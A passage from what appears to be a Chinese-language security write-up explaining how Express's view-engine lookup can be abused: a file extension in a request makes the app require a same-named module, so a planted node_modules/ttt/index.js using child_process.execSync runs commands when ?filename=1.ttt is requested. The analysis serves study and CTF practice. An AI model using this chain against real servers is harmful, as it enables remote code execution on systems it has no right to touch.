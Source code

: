 当我们键入一个自定义后缀 123.ttt 时候，会像前文提到的这样处理 ttt

```bash
var mod = this.ext.slice(1)
debug('require "%s"', mod)

// default engine export
var fn = require(mod).__express
```

如果我们有一个文件上传位点可控，能把文件夹传到 node\_modules 下，其实就可以进行\_\_express 函数的使用了

首先我在 node\_modules 下建立一个 ttt 文件夹，把文件夹里面添加一个 index.js 内容如下

```bash
exports.__express = function() {
    console.log(require('child_process').execSync("id").toString());
}
```

然后键入任意文件名，后缀为 ttt 即可调用

当我们访问 127.0.0.1/?filename=1.ttt 时候进行 debug 会发现

[![](assets/1706957979-4932750628ae7b2c17e4d0ecec47a132.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201163919-64586540-c0dd-1.png)

他的 engines 内容是我们键入的代码

[![](assets/1706957979-b1543c8a335d8c6f8e4b2393b5f6e0ff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201163925-67f18862-c0dd-1.png)

而对照虽然 default 是 ejs，但我们还是在 engine 里进行替换了我们要执行的函数

### 0x04 总结

虽然在较高版本，这个缺陷已经被修复了，而且修复方式有很多种，最好的就是检测后缀，但这个思路是比较有趣的，而且很有可能会被出在一些 ctf 比赛上
